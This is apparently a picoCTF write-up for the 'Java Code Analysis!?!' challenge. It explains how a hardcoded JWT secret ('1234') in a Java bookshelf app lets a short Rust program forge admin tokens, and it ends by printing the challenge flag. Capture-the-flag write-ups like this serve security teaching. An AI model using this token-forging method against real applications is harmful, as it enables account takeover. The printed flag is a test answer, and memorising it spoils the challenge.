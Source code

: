 ```yaml
---
title: "Java Code Analysis!?!"
tags:
- CTF
- Java
- JWT
- PicoCTF
- Web
date: 2023-03-18T07:10:17+05:30
draft: false
---
```


To get started we are given the username "user" and password "user" to log into the BookShelf Pico web application.
We are also given the source code of the application.

Taking a look at the `src/main/java/io/github/nandandesai/pico/security` subdirectory of the project, we see that it uses JWT.

Interestingly, the file `SecretGenerator.java` in the aforementioned directory contains a weak hardcoded *"random"* value 😱.
```java
@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
}
```

This string "1234" is used as the secret for the JSON web token.

After logging into the webapp, we notice the following key value pair in our local storage (press `Shift` `F9`).

Key|Value
-|-
`auth-token`|`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY3OTY2OTgxOCwiaWF0IjoxNjc5MDY1MDE4LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.7j5YSQOQMGw3NZ9ZVZG99UI0liH8vE7Jy4z2UWTMObk`
`token-payload`|`{"role":"Free","iss":"bookshelf","exp":1679669818,"iat":1679065018,"userId":1,"email":"user"}`


Let's write a quick program in Rust to tamper with the token.

Run the following to setup dependencies.

```sh
cargo new bookshelf
cd bookshelf
cargo add serde_json, frank_jwt, anyhow
```

Next, add the following to `src/main.rs`.

```rust
use anyhow::Result;
use frank_jwt::{decode, encode, Algorithm, ValidationOptions};
use serde_json::value::Value;
fn main() -> Result<()> {
    let signing_key = "1234";
    let encoded_token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY3OTY2OTgxOCwiaWF0IjoxNjc5MDY1MDE4LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.7j5YSQOQMGw3NZ9ZVZG99UI0liH8vE7Jy4z2UWTMObk";
    let algorithm = Algorithm::HS256;
    let validation = ValidationOptions::default();

    let (header, mut payload) = decode(
        encoded_token,
        &signing_key,
        algorithm,
        &validation
    )?;

    // tampering the payload
    payload["role"] = Value::String("Admin".into());

    let token = encode(header, &signing_key, &payload, algorithm)?;

    println!("{}", payload);
    println!("{}", token);
    Ok(())
}
```

Here, we have decoded the token, modified the `role` to `Admin` and re-encoded the token using the signing key.

To run the program, issue the command

```
cargo run
```

Now in our browser, we set the `token-payload` and `auth-token` to each line of the output respectively.

If we reload the page, we see that although we have the admin role, we cannot read the flag book. At the admin dashboard at `/#/admindash`, we can see the requests to `/base/users` in the network tab (press `Ctrl` `Shift` `E`). From here we can see that admin has the associated `userId` of `2` and `email` of `admin`.

```json
{
  "type": "SUCCESS",
  "payload": [
    {
      "id": 1,
      "email": "user",
      "fullName": "User",
      "lastLogin": "2023-03-17T14:56:58.339637063",
      "role": "Free"
    },
    {
      "id": 2,
      "email": "admin",
      "fullName": "Admin",
      "lastLogin": "2023-03-17T14:51:39.063583433",
      "role": "Admin"
    }
  ]
}
```

In our program, we will further modify the `userId` to `2` and email to `admin` under the tampering section.

```rust
payload["email"] = Value::String("admin".into());
payload["userId"] = Value::Number(2.into());
```

Rerun the program with

```sh
cargo run
```

and set the `token-payload` and `auth-token` in our browser to the new payload and encoded token from the program's output respectively.

Now we can go to the main page and click on the flag book. There, we get the following flag.

```
picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}
```
